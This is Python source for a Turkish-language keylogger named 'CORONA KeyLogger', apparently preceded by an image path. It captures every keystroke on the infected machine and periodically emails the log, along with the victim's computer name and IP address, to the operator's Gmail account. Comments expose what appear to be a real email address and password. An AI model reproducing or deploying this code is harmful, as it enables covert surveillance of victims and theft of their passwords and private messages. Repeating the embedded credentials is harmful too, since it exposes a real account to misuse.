 import time, pynput.keyboard, yagmail, socket

tuslar = []
yollamaSuresi = 0
mailAdres = "" # < ssksns44@gmail.com.
mailParola = "" # < Sakarya5454.
makinaAd = socket.gethostname()
kayitEkle = open("log.txt", "a")
mail = yagmail.SMTP(mailAdres, mailParola)

mail.send(
    to = mailAdres,
    subject = "CORONA - KeyLogger Aktif",
    contents = f"Corona KeyLogger aktif edildi, yakında bilgiler mail adresinize iletilecek.",
)

def klavyeDinle(tus):
    global tuslar
    try:
        tuslar.append(tus)
    except AttributeError:
        if tus == tus.space: 
            tuslar.append(tus)
        else:
            tuslar.append(tus)

def mailYolla():
    global tuslar, mailAdres, mailParola, mail
    kayitEkle.write(str(tuslar))
    mail.send(
        to = mailAdres,
        subject = "CORONA - KeyLogger Bildirimi",
        contents = f"""Merhaba Corona Logger kullanıcısı! Az önce bir kullanıcıdan veri aldın.

Kurbanın PC Adı    : > {makinaAd} <
Kurbanın IP Adresi : > {socket.gethostbyname(makinaAd)} <

Log kayıtlarını ekte bulabilirsiniz.""",
        attachments = "log.txt" # Log dosyasının adı.
    )
    tuslar = []

keylogger = pynput.keyboard.Listener(on_press=klavyeDinle)
keylogger.start

with keylogger:
    while True:
        if yollamaSuresi == 5: # 5'i istediğiniz süre ile değiştirin. Örnek; 6 yazarsanız, 6 saniyede bir bildirim alırsınız.
            mailYolla()
            yollamaSuresi = 0
        else:
            time.sleep(1)
            yollamaSuresi += 1
